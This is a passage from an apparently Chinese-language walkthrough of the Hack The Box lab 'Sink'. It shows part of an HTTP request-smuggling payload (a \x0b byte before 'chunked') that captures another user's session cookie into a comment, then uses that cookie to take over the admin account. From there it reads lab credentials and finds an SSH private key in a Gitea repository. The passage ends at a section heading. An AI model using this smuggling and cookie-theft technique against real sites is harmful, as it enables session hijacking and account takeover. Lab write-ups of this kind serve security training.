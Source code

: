 ```
Cookie: lang=en-US; i_like_gitea=ec51054dc539d89a; session=eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ.YO2r8w.8rq5TXqG7LkEYJV3cqVwOBTIh7o; _csrf=cQKWFLPhRfTeyypUg38t8RbxoUY6MTYyNjE4ODM1OTEzNDc4OTczMw
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Connection: keep-alive

msg=

```

后面这部分POST请求即为我们走私的请求，因为需要在`Transfer-Encoding`的`chunked`前面加`\x0b`，我们先添加`Cwo=`，然后在`burp`中`shift+ctrl+b` `(base64 decode)`即可，或者直接在`burp`中添加`[\x0b]`也可以。发送后我们在评论处可以看到一条新的评论，包含了这个用户的cookie。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t016cc77e69d8edfa82.png)

`Cookie editor`替换一下，即可以获得`[admin@sink.htb](mailto:admin@sink.htb)`的权限。

[![](https://p1.ssl.qhimg.com/t010f231b3c1defc408.png)](https://p1.ssl.qhimg.com/t010f231b3c1defc408.png)

### <a class="reference-link" name="Credentials"></a>Credentials

在`Notes`中可以获得三部分`Credentials`:

```
Chef Login : http://chef.sink.htb Username : chefadm Password : /6'fEGC&amp;zEx`{`4]zz

Dev Node URL : http://code.sink.htb Username : root Password : FaH@3L&gt;Z3`}`)zzfQ3

Nagios URL : https://nagios.sink.htb Username : nagios_adm Password : g8&lt;H6GK\`{`*L.fB3C
```



## 0x03 Port 3000 – Gitea

经过尝试，发现使用`root/FaH[@3L](https://github.com/3L)&gt;Z3`}`)zzfQ3`这个密码可以成功登录3000端口的`Gitea`：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t016b345523c185bdce.png)

`Gitea`是一个类似`git`的代码托管平台，在几个主要的`Repositories`里看了下，发现`key management`中似乎有一些秘钥信息

[![](https://p4.ssl.qhimg.com/t0158fb5234f8e285bf.png)](https://p4.ssl.qhimg.com/t0158fb5234f8e285bf.png)

发现是用户`marcus`提交的`ssh`私钥

[![](https://p1.ssl.qhimg.com/t01829a39775bb7c10c.png)](https://p1.ssl.qhimg.com/t01829a39775bb7c10c.png)

### <a class="reference-link" name="User%20-marcus"></a>User -marcus
